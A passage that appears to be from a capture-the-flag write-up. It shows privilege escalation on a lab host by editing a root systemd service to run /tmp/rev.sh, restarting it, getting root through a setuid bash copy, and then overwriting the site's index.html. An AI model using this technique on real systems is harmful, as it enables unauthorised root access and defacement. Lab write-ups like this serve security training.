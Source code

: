 ```bash
server-admin@duckyinc:/tmp$ cat /etc/systemd/system/duckyinc.service
[Unit]
Description=Gunicorn instance to serve DuckyInc Webapp
After=network.target

[Service]
User=root
Group=root
WorkingDirectory=/var/www/duckyinc
ExecStart=/bin/bash /tmp/rev.sh
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s TERM $MAINPID

[Install]
WantedBy=multi-user.target
```

<br>

<img width="1268" height="732" alt="image" src="https://github.com/user-attachments/assets/c8d33d15-65e8-4876-9001-13eb041ea542" />

<br>

```bash
server-admin@duckyinc:/tmp$ sudo /bin/systemctl daemon-reload
```

<br>

```bash
server-admin@duckyinc:/tmp$ sudo /bin/systemctl enable duckyinc.service
```

<br>

```bash
server-admin@duckyinc:/tmp$ sudo /bin/systemctl restart duckyinc.service
```

<br>

```bash
server-admin@duckyinc:/tmp$ /tmp/bash -p
bash-4.4# id
uid=1001(server-admin) gid=1001(server-admin) euid=0(root) groups=1001(server-admin),33(www-data)
```

<br>

```bash
bash-4.4$ ls
404.html  admin.html  contact.html  login.html	  products.html
500.html  base.html   index.html    product.html
```

<br>

```bash
bash-4.4$ echo a > index.html
```
